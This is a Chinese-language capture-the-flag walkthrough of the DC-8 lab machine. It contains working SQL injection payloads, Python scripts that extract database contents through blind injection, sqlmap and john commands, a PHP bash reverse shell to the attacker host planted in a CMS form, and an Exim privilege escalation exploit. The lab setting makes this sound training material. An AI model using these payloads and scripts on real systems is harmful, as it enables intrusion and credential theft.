# 前言

靶机：`DC-8`，IP地址为`192.168.10.12`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

对于文章中涉及到的靶场以及工具，我放置在公众号中，在公众号发送`dc0107`即可获取相关工具

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`

因为是靶机，所以在同一局域网中，这里使用这两个工具是因为在同一局域网中的扫描速度很快

当然，如果想要模拟真实渗透，可以使用`nmap`等扫描工具



# 信息收集 

## 使用nmap扫描端口

扫描目标的全端口，以及服务和操作系统信息

```shell
nmap -sV -O 192.168.10.12 -p-
```



## 网站信息探测

访问80端口默认界面，查看页面源代码，并未发现东西



翻译上面的话



# 手工sql注入测试

在点击网站的几处，发现有三个链接是通过传参的方式



测试是否具有`sql`注入，发现以`'`闭合，出现报错，可能存在`sql`注入，并且这里数据库的类型为`mariaDB`



构造语句，进行数字型的布尔判断，这里使用`and 1=1`，表示正确的

```shell
http://192.168.10.12/?nid=1 and 1=1--+
#--+表示注释后面的内容
#之前报错时，数据库的语句已经出现，为放置后面还有语句判断，使用注释
```



## 布尔盲注

再次构造语句，使用`and 1=2`，表示会有错误的

```
http://192.168.10.12/?nid=1 and 1=1--+
```



综上比较，可以确定，在正确的时候，会有回显`Welcome to DC-8`

也就是说，这里并不会返回所谓的查询数据，那么可以根据这个指定的回显字符，来去进行盲注操作

首先确定正确返回的回显所在的`html`代码位置，以便在`burp`中，方便定位



确定当前数据库的长度，构造语句，这时候建议开始使用`burp`，因为后续要猜测的字符太多，不能说一个个去进行操作，当然，也可以自己编写脚本去请求

这里在`kali`中使用`burp`，其版本是社区版本，有很多功能进行限制，不过还是挺建议使用这个的，因为在`OSCP`考试中，是只能使用社区版本的

并且下面的语句，最好进行URL编码，只需要对空格等进行处理即可，其余字符不要编码

```shell
/?nid=1 and if(length(database())=4,1,0)--+

#拆解，首先length()，是确定长度
#database()，是当前数据库名称
#所以，加在一起就是length(database())，统计数据库的长度

#使用if进行判断，if的格式是 if(条件，条件判断正确执行，条件判断错误执行)
#所以这里总体语句就是，当前数据库的长度为4时，返回结果为1，否则为0

#结合前面的and，就会确定总体是否正确
#当然，这里长度为多少可以自行调节，建议从2开始，一般不会有数据库名称只有一个字符
```



确定当前数据库长度为4



再次使用函数`substr()`或者`substring()`，用这函数猜测数据库每一位的字符是什么

```shell
/?nid=1 and if(substring(database(),1,1)='s',1,0)--+
#substring(数据，字符位置，截取长度)，这里表示截取数据库的第1个字符开始截取，截取长度为1，也就是截取单个字符，然后进行判断是否为 s
```

首先在burp中修改上面语句后，选择两个攻击位置，并选择`cluster`爆破，再针对每一个攻击位置，设置对应的数据进行爆破即可

设置第一个参数为数字范围`1-4`



设置第二个参数为小写英文+数字，当然也可以自己加上大写字母，以及各种其他字符



开始攻击，最终发现数据库名称为`d7db`



前面已经知道数据库为`mariadb`，`ai`搜索，这是`mysql`的一个分支，大部分都是相似的，并且有`information_schema`这个数据库，该数据库中的表`schemata`，包括其他所有的数据库名称(`schema_name`)

并且还有一个表`tables`包括表所属的数据库（`table_shema`）、表名（`table_name`）

还有表`columns`包含列所属的表（`table_shema` 和 `table_name`）、列名（`column_name`）

前面获取的数据库名称`d7db`，可以有下面的结构

```shell
information_schema
----schemata
--------schema_name				d7db可以在这里

----tables
--------table_name
--------table_schema			d7db可以在这里

----columns
--------table_name
--------table_schema			d7db可以在这里
--------column_name

所以可以理清了吧
```

## 布尔盲注脚本编写

构造语句，不过下面的爆破在虚拟机`kali`中进行，我的电脑不行，所以下面采用写代码的形式进行

```shell
/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))=1,1,0)--+

/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),1,1)='s',1,0)--+ 

#看着是不是感觉很长，这里其实拆解后，很好理解的
#首先就是()，在sql中，具有优先权的，所有在原本的sql语句中，使用()，优先执行这里的语句，也就是select
#然后在每一个中，用()包括，也是为了防止出错，只是()太多，眼看很难受
#总体语句就是测试数据库d7db中的表名的每一位字符
```

编写代码先进行长度的验证

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string
for i in range(1,2000):
    try:        
        url=f"http://192.168.10.12/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))={i},1,0)--+"
#这里的url可自行修改
        response=requests.get(url)
        response.encoding = 'utf-8'
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            target_elements = soup.find_all('div', class_='messages status')
            if target_elements:
                print(f"length is {i}")
                for element in target_elements:
                    pass
                #print(element)
            else:
                pass
            #print("not found div")
        else:
            print("target code not 200")
    except requests.RequestException as e:
        print(f"使用参数值 {combination} 请求时出现异常: {e}")
```



确定长度为1024，再次编写验证的代码，因为在正确时会多出一串`html`代码，所以以这个为正确方向

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string

characters = string.ascii_lowercase + string.digits
combinations = [''.join(x) for x in itertools.product(characters, repeat=1)]

for i in range(0,1025):	#根据前面的长度进行对应的修改范围

    for combination in combinations:
        try:
            url=f"http://192.168.10.12/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),{i},1)='{combination}',1,0)--+"
            response=requests.get(url)
            response.encoding = 'utf-8'
            if response.status_code == 200:
                soup = BeautifulSoup(response.text, 'html.parser')
                target_elements = soup.find_all('div', class_='messages status')
                if target_elements:
                    print(f"num {i}-----{combination}")
                    for element in target_elements:
                        pass
                        #print(element)
                else:
                    pass
                    #print("not found div")
            else:
                print("target code not 200")
        except requests.RequestException as e:
            print(f"使用参数值 {combination} 请求时出现异常: {e}")
```

发现`users`表名



获取到表名后，还需要获取列名，所以再次构造语句

```shell
/?nid=1 and if(length((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')))={i},1,0)--+
```

这里直接把语句复制到脚本中的`url`参数即可



知道长度为115，修改获取数据的脚本中的`range(0,117)`和`url`为下面的即可

```shell
/?nid=1 and if(substring((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')),{i},1)='{combination}',1,0)--+
```



知道列名后，就可以获取数据了，不过，还是需要测试指定的列名，其数据长度

```shell
/?nid=1 and if(length((select group_concat(name,'|',pass) from users))={i},1,0)--+
```



再继续往后，经过测试，啧，密码的大小写不分，导致排列组合太多，所以不再继续

## union注入

好了，看到这里应该人不多了， 就上`union`测试了，前面不直接使用，也是为了练我自己

这是之前测试的截图，现在放在这里，证明可以进行`union`测试



以上步骤不再重复，已经知道该查询什么了，构造语句

```shell
union select group_concat(table_name) from information_schema.tables where table_schema='d7db'--+

union select group_concat(column_name) from information_schema.columns where table_name='users'--+

http://192.168.10.12/?nid=-1 union select group_concat(name,'|',pass) from users--+
```



## 使用sqlmap进行测试

因为已经知道数据库、表等，直接最终数据

```shell
sqlmap -u "http://192.168.10.12/?nid=1" -D d7db -T users -C name,pass --dump --batch
```



## hash破解

把两组密码放置在文件中，使用`john`进行破解，破解出一个很快`turtle`

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



两个用户，一个密码，一个个进行测试，啧，突然想到这里忘了进行网站目录爆破了，就先访问`robots.txt`吧，有东西的话，也省的再扫描，好嘛，CMS路径时默认的，没有修改



# 反弹shell

访问`/user/login`，然后用上面的用户名和密码进行测试

使用破解出的密码`admin`，以`john`用户登录成功

登录网站后，进行功能点测试，就是所有东西都点击点击，看一下，先从最简单的明显的去查看

发现在一处，与前面`DC-7`时所进行的操作很像，都借助`php`



尝试编写代码进行测试，先选择`php code`，然后添加下面的代码

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");?>
```



在`kali`中使用`nc`开启监听9999端口

```shell
nc -lvvp 9999
```

但是这里保存成功后，并没有相关反应，仔细观察，这里是在`contact us`编写的，可能与这个菜单有关，在其界面发现有一个`view`，这里有表单，根据前面添加代码出，是对`form`进行设置的，所以需要触发表单，也就是需要输入信息，并提交，所以这里随便输入，点击下面的提交后，触发反弹



# 提权

在查看当前靶机内的用户，发现`dc8user`，但是其家目录下，没有任何有用的东西

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```



使用命令，查看`exim4`的相关信息

```shell
which exim4
/usr/sbin/exim4 --version
```



在`kali`中，另起终端，使用`searchsploit`寻找相关版本漏洞

```shell
searchsploit exim 4.8 privilege
```



发现有一个在范围内的



为了防止不必要的麻烦，靶机切换到`/tmp`目录



该脚本两种用法，可以通过查看脚本进行查看

```shell
bash 46996.sh -m setuid
bash 46996.sh -m netcat
```



最终经过测试，只有一种方式可以提权成功

```shell
chmod +x 46996.sh
./46996.sh -m netcat
```



查看最终`flag`




# 总结

该靶场考察以下几点：

1. 对于`sql`注入的了解，这里虽然可以采用联合查询`union`，确实可以省去很多时间，不过，鄙人在这里建议，可以尝试测试其他的几种方式，至少可以采用其他的几种方式判断是否具有`sql`注入，不能忘了其他的注入方式
2. 对于网站中的反弹`shell`，这里的网站还是可以让普通用户具有可编写`php`代码的文章，并且并未对代码进行过滤
3. 对于提权，这里借助`searchsploit`搜索`exim4`的历史版本漏洞，致提权成功


